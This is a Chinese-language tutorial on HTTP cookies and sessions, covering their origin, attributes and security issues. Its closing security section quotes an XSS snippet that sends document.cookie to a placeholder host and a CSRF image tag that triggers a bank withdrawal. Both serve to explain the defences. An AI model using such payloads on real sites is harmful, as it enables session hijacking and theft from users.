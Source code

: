 ### Cookie 起源与发展

#### 一、诞生背景

​		应用层协议http的五大特点之一，无状态，表示服务器无法知道两个或多个请求是否来自同一个客户端浏览器，每次请求都是完全相互独立的，而随着互联网发展，交互式web慢慢兴起，无状态的特点也阻碍了其发展。

​		早期，为了实现状态保存，程序员会在表单提交中使用**隐藏域**来记录用户的上一次操作信息。

> 隐藏域的一种写法：<input type="hidden" name="field_name" value="value" />

​		但无论如何“隐藏”，这些数据都是明文传输的，而且每次创建隐藏域和赋值都有很多麻烦，且容易出错。

​		网景公司（Netscape Communications Corporation）的一名员工 Lou Montulli（卢-蒙特利）在1994年将“Cookies”的概念应用于网络通信，用来解决用户网上购物的购物车历史记录，二当时最强大的浏览器正是网景（Netscape）浏览器。在之后，其他浏览器也渐渐开始支持 Cookies。

> Http cookies 或者 web cookies 来源于 Magic cookies（也是一个计算机术语）
>
> Magic cookies 来源于 Fortune cookies，就是 a cookie with an embedded message （嵌入了幸运信息的小甜饼） ，即小甜饼里有个纸条，纸条上写一些信息，比如，汉英短语、单词翻译、名人名言，类似盲盒或者抽奖，好似班级里捡到小纸条的感觉。
>
> Cookies 通常会保存很多用户隐私数据，对服务者或者互联网公司来说，就好像是引诱着公司犯罪、侵犯用户隐私的小甜饼。

#### 二、Cookie 是什么

​		下图是在 Chrome 浏览器中的知乎页面的 Cookies（Cookie的复数形式），在表格中，每一行都代表着一个 Cookie。

![2023.10.19-1-2.1](./Images/2023.10.19-1-2.1.png)

> Cookie 是由服务器发给客户端的特殊信息，而这些信息以文本的形式存放在客户端，客户端每次向服务器发送请求的时候都会带上这些特殊信息，用于服务器记录客户端的状态。

Cookie 主要有以下几个作用：

1. 会话状态管理（如用户登录态、购物车、游戏分数或其他需要记录的信息）
2. 个性化设置（如用户自定义设置、主题等）
3. 浏览器行为跟踪（如跟踪分析用户行为等）

#### 三、Cookie 原理

​		下面以用户登录为例绘制了一副简易流程图：

![2023.10.19-1-2.1](./Images/2023.10.19-1-3.1.png)

​		用户在输入用户名和密码后，浏览器将用户名和密码发送给服务器，服务器进行校验，通过之后将用户信息加密封装成 Cookie 放在请求头中返回给浏览器：

```sh
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: user_token=xxx; Expires=Tue, 15 Aug 2023 21:47:38 GMT; Path=/; Domain=.163.com; HttpOnly
```

​		浏览器收到服务器返回的数据，发现请求头有一个 Set-Cookie，然后它就把 Cookie 保存起来，下次浏览器在请求相同的服务器时，会把 Cookie 放在请求头中传给服务器：

``` sh
GET /sample_page.html HTTP/1.1
Host: www.163.com
Cookie: user_token=Rg3vHJZnehYLjVg7qi3bZjzg
```

​		服务器收到请求后，从请求头中拿到 Cookie，解析并获取到用户信息，说明此用户已登录。注意，Cookie 是由服务端主动反馈给客户端，由客户端进行保存的，客户端可以选择不保存或随意修改，显然这是一种不安全的用户状态保持策略。另外，Cookie 在服务器和客户端交互的过程中，都是放在 http 协议的请求头中。

#### 四、Cookie 属性

​		在第二节的途中可以看到，Cookie的属性有：Name、Value、Domain、Path、Expires/Max-Age、Size、HTTP、Secure。

##### 1、Name & Value

​		Name 表示 Cookie 的名称，服务器通过 Name属性来获取某个 Cookie；

​		Value 表示 Cookie 的值，大多数情况下，服务器会把 Value 当做一个 Key 去缓存中查询保存的数据。

##### 2、Domain & Path

​		Domain 表示可以访问此 Cookie 的域名，我们仍以知乎的 Cookie 来解释一下 Domain：

![2023.10.19-1-4.2](./Images/2023.10.19-1-4.2.png)

​		从图中可以看出 Domain 有 zhihu.com 顶级域名 和 zhuanlan.zhihu.com 二级域名，所以这里会有一个访问规则：顶级域名只能设置或访问顶级域名的 Cookie，二级及以下的域名只能访问或设置自身或顶级域名的 Cookie，所以如果要在多个二级域名中共享 Cookie，可以将 Cookie 的 Domain 设置为顶级域名。

​		Path 表示可以访问此 Cookie 的页面路径，比如 path=/test，那么只有 /test 路径下的页面可以读取此 Cookie。

##### 3、Expires/Max-Age

​		Expires/Max-Age 表示此 Cookie 的过期时间，若设置为一个时间，那么到期后此 Cookie 失效，不设置的话默认是 Session，即会话存在时有效，若关闭浏览器应用，此 Cookie 失效。

> 当 Cookie 的过期时间被设定时，设定的日期和时间与客户端相关，与服务端不相关，即 Cookie 过期后，由浏览器自行清除。注意，服务端在设置过期时间时，只能设置一个数值，表示 Cookie 可以维持的时间，而不能设置某个过期时间，这也是为了解决服务端与客户端时区不同或时间设置不同导致的时间差问题。

##### 4、Size

​		Size 表示 Cookie 的 Name+Value 的字符数，比如 id=666，那么 Size = 2(id)+3(666) = 5。另外，每个浏览器对 Cookie 的支持都不相同。

##### 5、HTTP

​		该属性表示 Cookie 的 httponly，若值为 true，表示只有在 http 请求头中会带有该 Cookie 的信息，而不能通过 document.cookie 来访问此 Cookie。

![2023.10.19-1-4.5](./Images/2023.10.19-1-4.5.png)

​		该特征意在提供一个安全措施来帮助阻止通过 Javascript 发起的跨站脚本攻击（XSS）窃取 Cookie 的行为。

##### 6、Secure

​		Secure 表示是否只能通过 https 来传递此条 Cookie。不像其他选项，该选项只是一个标记，并没有其他的值。这种 Cookie 的内容通常具有很高的价值，并且可能被破解并以纯文本形式传输。

#### 五、Session

##### 1、背景

​		在 Cookie 设计之初，通常用于保存用户信息，但因为保存在客户端，且其本身存储的尺寸大小也有限制，最关键的一点是明文存储，可以随意修改，很不安全。于是，一种新的会话存储机制 Session 就诞生了。

##### 2、Session 是什么

​		Session 翻译为会话，服务器为每个浏览器创建一个会话对象，在第一次请求服务器时，服务器生成一个 Session 对象并保存在服务端，且 Session 的 ID 以 Cookie 的形式发送给客户端，用以显示结束或 Session 超时未结束。

##### 3、工作原理

1. 当一个用户向服务端发送第一个请求时，服务端建立 Session，并创建标识号 SessionID；
2. 客户端接受到响应，并将 SessionID 以 Cookie 的形式保存在本地；
3. 随后每次请求都带上 SessionID，服务端校验 SessionID 来判断请求属于哪个 Session。

​		对于 Session 标识号，有两种方式实现：Cookie 和 URL 重写，下图以 Cookie 的实现来绘制一个简略图来说明和展示：

![2023.10.19-1-5.3](./Images/2023.10.19-1-5.3.png)

​		联系 Cookie 的原理图我们可以看到，Cookie 将数据保存在客户端，而 Session 将数据保存在服务端，就安全性来说 Session 相对更优。

#### 六、总结

##### 1、Cookie 和 Session 的关系

​		二者都为了实现客户端和服务端的状态化而产生，Cookie保存在客户端，易伪造，不够安全，Session 保存在服务端，安全性得到保障，但会消耗服务端的资源。

##### 2、Cookie 的安全性问题

1. **会话劫持和 XSS**：在 web 应用中，Cookie 常用来标记用户或授权回话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有：利用社会工程学攻击、利用应用程序漏洞进行 XSS 攻击。

   > (New Image()).src = 'http://www.xxx.com?cookie=' + document.cookie;
   >
   > 上面的 Javascript 脚本模仿了其中一种类型的攻击，而HttpOnly 设置为 true 可以一定程度上缓解此类攻击

2. **跨站请求伪造（CSRF）**：解决 CSRF 的办法有：隐藏域验证码、确认机制、较短的 Cookie 生命周期。

   > 在一个不安全的聊天室或论坛中有一张图片标签，而这个图片的地址指向了某个银行服务器的请求：
   >
   > \<img src="http://bank.xxx.com/withdraw?account=Tom&amount=10000" /\>
   >
   > 当我们打开了含有这张图片的 Html 页面时，若你之前打开过这个银行的页面并登录过，且 Cookie 仍然有效，那么你银行账户里的钱，就会转到名为 Tom 的账户下。

